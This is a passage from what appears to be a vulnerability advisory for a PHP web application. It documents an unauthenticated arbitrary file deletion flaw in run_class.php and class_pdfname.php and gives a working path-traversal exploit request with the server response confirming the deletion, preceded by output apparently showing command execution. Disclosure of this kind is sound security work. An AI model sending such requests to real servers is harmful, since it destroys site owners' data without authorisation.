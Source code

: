 Response:
```
HTTP/1.1 200 OK
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Content-Type: text/html; charset=UTF-8
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Server: Microsoft-IIS/8.5
X-Powered-By: PHP/5.6.35
Set-Cookie: PHPSESSID=dsno8nfakd4dcq28e1cm124t76; path=/; secure; HttpOnly
X-Powered-By: ASP.NET
Date: Wed, 02 Jan 2019 16:05:58 GMT
Connection: close
Content-Length: 36

nt authority\iusr
```

### Unauthenticated Arbitrary File Deletion

The `pdfname` class function `deleteNew` in `/library/class_pdfname.php` does not validate a request variable prior to passing it to the `unlink` function. Allowing an attacker to delete arbitrary files from the underlying file system. It is possible to call this class function using `/library/run_class.php`, which does not require authentication, and uses request variables to require a file, instantiate a class, and call a function on that class object.

Request:
```
GET /library/run_class.php?class=pdfname&page=&action=deleteNew&path=../upload/mods/ecg/raw_ecg-hp_xml/lugqmrbmhxun.php HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

Response:
```
HTTP/1.1 200 OK
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Content-Type: text/html; charset=UTF-8
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Server: Microsoft-IIS/8.5
X-Powered-By: PHP/5.6.35
X-Powered-By: ASP.NET
Date: Wed, 02 Jan 2019 15:55:16 GMT
Connection: close
Content-Length: 3191

-- snip --
				The file ../upload/mods/ecg/raw_ecg-hp_xml/lugqmrbmhxun.php was deleted.
-- snip --
```
